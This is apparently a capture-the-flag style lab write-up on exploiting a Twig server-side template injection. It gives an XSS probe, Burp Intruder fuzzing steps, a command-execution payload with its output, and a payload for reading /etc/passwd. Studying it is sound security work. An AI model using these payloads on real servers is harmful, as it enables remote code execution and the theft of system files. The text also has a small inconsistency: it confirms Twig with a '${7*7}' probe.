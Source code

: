 
# 🌐 SSTI 0x01: Server-Side Template Injection Exploration

---

## ❓ Overview of the Lab

This lab focuses on identifying and exploiting Server-Side Template Injection (SSTI) vulnerabilities using a simple message submission interface.

---

## 🛠️ Steps to Identify and Exploit SSTI

1. **Initial XSS Test:**
    - **Objective:** Test for cross-site scripting (XSS) vulnerabilities.
    - **Method:** Submit `<script>alert(1)</script>` in the input field.
    - **Result:** The script executes, indicating susceptibility to script injection.

2. **Interception and Fuzzing with Burp Suite:**
    - **Setup:** Enable proxy/intercept in Burp Suite and capture the POST request upon page reload.
    - **Captured Data:**
        ```
        POST /ssti0x01.php HTTP/1.1
        ...
        greeting=hello
        ```
    - **Fuzzing:** Modify the `greeting` parameter, sending it to Burp Intruder and using payloads from `/usr/share/seclists/fuzzing/template-engines-expression.txt`.

3. **Identifying Template Engine:**
    - **Suspected Payload:** `{{{42*42}}}`
    - **Error Response:** Reveals a syntax error specific to the Twig template engine, confirming its use:
        ```
        <b>Fatal error</b>: Uncaught Twig\Error\SyntaxError: ...
        ```
    - **Confirmation:** Successful exploitation with `${7*7}`, which returns `49` on the front-end, verifying server-side rendering.

4. **Executing the SSTI Attack:**
    - **Payload:** `{{['id',""]|sort('system')}}`
    - **Outcome:** The server executes the `id` command, returning:
        ```
        Your message:
        uid=33(www-data) gid=33(www-data) groups=33(www-data) Array
        ```
    - **Conclusion:** The payload execution confirms a successful SSTI attack.

---

## 📚 Resources Used

- **Burp Suite:** For intercepting, modifying, and replaying HTTP requests.
- **SecLists:** For obtaining a list of fuzzing payloads to test against the server.
- **Hacktricks:** Utilized to reference specific template injection payloads for Twig.

---

## 📖 Learning Outcomes

- **Template Engine Identification:** Understanding error messages to identify the template engine in use.
- **Payload Crafting:** Developing effective payloads to test and exploit template engines.
- **Security Implications:** Recognizing the need for proper input sanitization to prevent SSTI.

---

## 🎯 Real-World Implications

- **Potential Risks:** SSTI can lead to arbitrary code execution, allowing attackers extensive control over the affected server.
- **Prevention Strategies:** Ensure rigorous input validation and sanitization. Use sandboxed environments for template rendering when possible.

---

## 🔗 References

- [Hacktricks: SSTI Twig PHP](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php)
- **Client-Side vs Server-Side Confirmation:** If the HTML page displays `{{7*7}}`, it's client-side. If it evaluates to `49`, it's server-side.
- **Other Payloads:** Example for accessing sensitive files: `{{['cat/etc/passwd']|filter('system')}}`.

---
